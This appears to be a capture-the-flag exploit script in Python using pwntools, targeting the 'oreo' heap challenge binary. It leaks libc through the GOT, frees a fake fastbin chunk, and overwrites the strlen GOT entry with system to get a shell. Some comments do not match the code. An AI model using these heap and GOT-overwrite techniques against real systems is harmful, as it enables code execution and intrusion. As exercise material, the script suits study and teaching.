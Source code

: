 ```python


def exp():
    print 'step 1. leak libc base'
    name = 27 * 'a' + p32(oreo.got['puts'])
    add(25 * 'a', name)
    show_rifle()
    p.recvuntil('===================================\n')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    print 'step 2. free fake chunk at 0x0804A2A8'

    # now, oifle_cnt=1, we need set it = 0x40
    oifle = 1
    while oifle < 0x3f:
        # set next link=NULL
        add(25 * 'a', 'a' * 27 + p32(0))
        oifle += 1
    payload = 'a' * 27 + p32(0x0804a2a8)
    # set next link=0x0804A2A8, try to free a fake chunk
    add(25 * 'b', payload)
    # gdb.attach(p)
    # before free, we need to bypass some check
    # fake chunk's size is 0x40
    # 0x20 *'a' for padding the last fake chunk
    # 0x40 for fake chunk's next chunk's prev_size
    # 0x100 for fake chunk's next chunk's size
    # set fake iofle' next to be NULL
    payload = 0x20 * '\x00' + p32(0x40) + p32(0x100)
    # payload = payload.ljust(60, 'b')
    # payload += p32(0)
    # payload = payload.ljust(128, 'c')
    message(payload)

    

    # fastbin 0x40: 0x0804A2A0->some where heap->NULL
    order()
    
    p.recvuntil('Okay order submitted!\n')

    print 'step 3. get shell'
    # modify free@got to system addr
    payload = p32(oreo.got['strlen']).ljust(20, 'a')
    add(payload, 'b' * 20)

    log.success('system addr: ' + hex(system_addr))
    #gdb.attach(p)
    message(p32(system_addr) + '||/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    exp()
```
